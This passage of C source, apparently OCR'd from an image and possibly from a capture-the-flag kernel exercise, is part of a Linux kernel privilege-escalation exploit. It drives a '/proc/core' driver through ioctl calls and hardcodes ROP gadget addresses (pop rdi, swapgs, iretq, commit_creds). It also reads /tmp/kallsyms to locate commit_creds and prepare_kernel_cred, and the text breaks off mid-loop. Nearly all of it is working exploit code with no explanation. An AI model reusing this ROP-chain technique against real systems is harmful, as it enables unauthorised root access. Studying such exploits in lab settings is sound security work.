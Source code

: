 ```c
}

void set_off_val(int fd, size_t off)
{
    ioctl(fd, 0x6677889C, off);
}

void core_copy(int fd, size_t nbytes)
{
    ioctl(fd, 0x6677889A, nbytes);
}

/**
 * Exploitation
**/

#define COMMIT_CREDS 0xffffffff8109c8e0
#define POP_RDI_RET 0xffffffff81000b2f
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RCX_RET 0xffffffff81021e53
#define SWAPGS_POPFQ_RET 0xffffffff81a012da
#define IRETQ 0xffffffff81050ac2

void exploitation(void)
{
    FILE *ksyms_file;
    int fd;
    char buf[0x1000], type[0x10];
    size_t addr;
    size_t canary;
    size_t rop_chain[0x100], i;

    log_info("[*] Start to exploit...");
    save_status();

    fd = open("/proc/core", O_RDWR);
    if(fd < 0) {
        log_error("[x] Failed to open the /proc/core !");
        exit(EXIT_FAILURE);
    }

    /* get addresses of kernel symbols */

    log_info("[*] Reading /tmp/kallsyms...");

    ksyms_file = fopen("/tmp/kallsyms", "r");
    if(ksyms_file == NULL) {
        log_error("[x] Failed to open the sym_table file!");
        exit(EXIT_FAILURE);
    }

    while(fscanf(ksyms_file, "%lx%s%s", &addr, type, buf)) {
        if(prepare_kernel_cred && commit_creds) {
            break;
        }

        if(!commit_creds && !strcmp(buf, "commit_creds")) {
            commit_creds = addr;
            printf(
                SUCCESS_MSG("[+] Successful to get the addr of commit_cread: ")   
        	   "%lx\n", commit_creds);
            continue;
```
